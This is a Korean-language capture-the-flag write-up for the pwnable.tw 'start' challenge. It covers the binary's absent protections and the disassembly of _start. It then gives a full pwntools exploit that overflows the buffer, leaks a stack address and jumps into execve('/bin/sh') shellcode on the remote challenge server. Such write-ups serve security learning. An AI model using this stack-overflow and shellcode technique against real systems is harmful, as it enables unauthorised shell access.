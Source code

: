 ```yaml
---
title: "[pwnable.tw]start"
date: 2019-11-17
ctf: Pwnable.tw
layout: post
published : false
---
```


보호기법은 하나도 안 걸려있다.

```
[*] '/vagrant/ctfs/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

`_start` 에서 syscall로 write, read 호출한다. 

write는 esp에 있는 값을 20바이트 만큼 출력해준다. push 해준 값들인데 아마 `Let's start the CTF: ` 이거 출력해줄 것이다. 그리고 read는 64바이트만큼 입력받을 수 있다. 그리고 마지막에 esp 정리해주고 exit으로 리턴해준다. 

```assembly
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 60
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

여기서 리턴을 덮어서 원하는 주소로 갈 수 있다. 근데 ret할때 esp가 스택주소가 들어있는데 `0x08048087` 로 리턴해주면 stack 주소를 leak 할 수 있다. 그리고 `add esp, 0x14` 하고 ret하니까 쉘코드가 있는 주소로 덮으면 쉘코드 실행이 된다 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./start')
#p = process('./start')
p = remote('chall.pwnable.tw',10000)
gadget = 0x08048087 # mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80

payload = 'A'*0x14
payload += p32(gadget)
p.sendafter(':',payload)

stack = u32(p.recv(4))
log.info('stack : ' + hex(stack))

#raw_input()
payload2 = 'A'*0x14
payload2 += p32(stack + 0x14)
payload2 += '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
p.send(payload2)

p.interactive()
```

